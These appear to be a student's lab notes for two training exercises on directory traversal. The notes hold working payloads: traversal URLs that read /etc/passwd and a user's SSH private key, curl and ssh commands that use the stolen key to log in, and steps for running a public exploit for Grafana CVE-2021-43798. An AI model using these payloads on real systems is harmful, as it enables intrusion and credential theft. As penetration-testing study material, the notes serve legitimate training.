 1. Follow the steps above and leverage the directory traversal vulnerability in the "Mountain Desserts" web application on VM #1. Use **curl** or _Burp_ to obtain the SSH private key for the user _offsec_. Use it to connect via SSH on port 2222 and find the flag in the SSH banner, which is displayed after you log in.

http://mountaindesserts.com/meteor/index.php?page=../../../../etc/passwd

This displays the content of the ```/etc/passwd``` file below:
![[Pasted image 20250311214711.png]]

We notice a *offsec* user. Let's get its ssh key configuration:
http://mountaindesserts.com/meteor/index.php?page=../../../../home/offsec/.ssh/id_rsa

![[Pasted image 20250311214918.png]]

Use curl for a better output:

```bash
curl http://mountaindesserts.com/meteor/index.php?page=../../../../home/offsec/.ssh/id_rsa
```
We then copy this into a file *ssh_key*, and use it to connect to SSH.

This fails, because the key is "too open".
The warning is: WARNING: UNPROTECTED PRIVATE KEY FILE!

We need to make the key only readable by our user.
```bash
# Change the file permission
chmod 600 ssh_key

# Connect via SSH
ssh -i dt_key -p 2222 offsec@mountaindesserts.com
```
![[Pasted image 20250311215531.png]]


2. The target VM #2 runs _Grafana_ on port 3000. The service is vulnerable to CVE-2021-43798, which is a directory traversal vulnerability. Search for "golangexample cve-2021-43798" in a search engine to get familiar with how the vulnerability can be exploited. Use **curl** and the **--path-as-is** parameter to find the flag in **C:\Users\install.txt**.

Reading https://github.com/taythebot/CVE-2021-43798

```bash
http://192.168.174.193:3000/public/plugins/alertlist/../../../../../../../../etc/passwd

# Using the exploit
go run exploit.go -target http://192.168.174.193:3000 -file /Users/install.txt
```
![[Pasted image 20250311220747.png]]